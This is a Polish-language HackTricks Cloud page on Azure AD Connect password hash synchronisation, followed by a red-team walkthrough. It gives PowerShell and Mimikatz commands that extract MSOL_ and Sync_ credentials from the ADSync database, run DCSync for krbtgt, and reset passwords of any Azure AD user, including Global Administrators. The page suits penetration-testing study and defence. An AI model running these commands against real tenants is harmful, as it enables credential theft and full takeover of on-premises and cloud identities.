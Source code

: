 # Az - PHS - Synchronizacja haszy haseł

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Synchronizacja haszy haseł** jest jedną z metod logowania używanych do realizacji hybrydowej tożsamości. **Azure AD Connect** synchronizuje hash, hasha, hasła użytkownika z lokalnej instancji Active Directory do opartej na chmurze instancji Azure AD.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

To **najczęściej stosowana metoda** używana przez firmy do synchronizacji lokalnego AD z Azure AD.

Wszystkie **użytkownicy** oraz **hash haseł** są synchronizowane z lokalnego AD do Azure AD. Jednak **hasła w postaci czystego tekstu** ani **oryginalne** **hashe** nie są wysyłane do Azure AD.\
Ponadto, **wbudowane** grupy zabezpieczeń (jak administratorzy domeny...) **nie są synchronizowane** z Azure AD.

**Synchronizacja hashy** odbywa się co **2 minuty**. Jednak domyślnie **wygasanie haseł** i **wygasanie kont** **nie są synchronizowane** w Azure AD. Tak więc użytkownik, którego **lokalne hasło wygasło** (nie zmienione), może nadal **uzyskiwać dostęp do zasobów Azure** za pomocą starego hasła.

Gdy lokalny użytkownik chce uzyskać dostęp do zasobu Azure, **uwierzytelnienie odbywa się w Azure AD**.

**PHS** jest wymagane dla funkcji takich jak **Ochrona tożsamości** i AAD Usługi domenowe.

## Pivoting

Gdy PHS jest skonfigurowane, niektóre **uprzywilejowane konta** są automatycznie **tworzone**:

* Konto **`MSOL_<installationID>`** jest automatycznie tworzone w lokalnym AD. To konto otrzymuje rolę **Konta synchronizacji katalogu** (zobacz [dokumentację](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), co oznacza, że ma **uprawnienia replikacji (DCSync) w lokalnym AD**.
* Konto **`Sync_<nazwa lokalnego serwera ADConnect>_installationID`** jest tworzone w Azure AD. To konto może **resetować hasło DOWOLNEGO użytkownika** (synchronizowanego lub tylko w chmurze) w Azure AD.

Hasła dwóch poprzednich uprzywilejowanych kont są **przechowywane w serwerze SQL** na serwerze, na którym **zainstalowano Azure AD Connect.** Administratorzy mogą wydobyć hasła tych uprzywilejowanych użytkowników w postaci czystego tekstu.\
Baza danych znajduje się w `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Możliwe jest wydobycie konfiguracji z jednej z tabel, z których jedna jest zaszyfrowana:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Zaszyfrowana konfiguracja** jest zaszyfrowana za pomocą **DPAPI** i zawiera **hasła użytkownika `MSOL_*`** w lokalnym AD oraz hasło **Sync\_\*** w AzureAD. Dlatego kompromitując te hasła, możliwe jest uzyskanie uprawnień do AD i AzureAD.

Możesz znaleźć [pełny przegląd tego, jak te poświadczenia są przechowywane i odszyfrowywane w tej prezentacji](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Znalezienie **serwera Azure AD connect**

Jeśli **serwer, na którym zainstalowano Azure AD connect** jest dołączony do domeny (zalecane w dokumentacji), można go znaleźć za pomocą:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Wykorzystywanie MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Możesz również użyć [**adconnectdump**](https://github.com/dirkjanm/adconnectdump), aby uzyskać te poświadczenia.
{% endhint %}

### Wykorzystywanie Sync\_\*

Kompromitując konto **`Sync_*`**, możliwe jest **zresetowanie hasła** dowolnego użytkownika (w tym Globalnych Administratorów)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Możliwe jest również **zmienienie haseł tylko użytkowników chmurowych** (nawet jeśli to nieoczekiwane)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Możliwe jest również zrzucenie hasła tego użytkownika.

{% hint style="danger" %}
Inną opcją byłoby **przyznanie uprawnień uprzywilejowanych dla principal usługi**, co użytkownik **Sync** ma **uprawnienia** do zrobienia, a następnie **uzyskanie dostępu do tego principal usługi** jako sposób na privesc.
{% endhint %}

### Seamless SSO

Możliwe jest użycie Seamless SSO z PHS, które jest podatne na inne nadużycia. Sprawdź to w:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
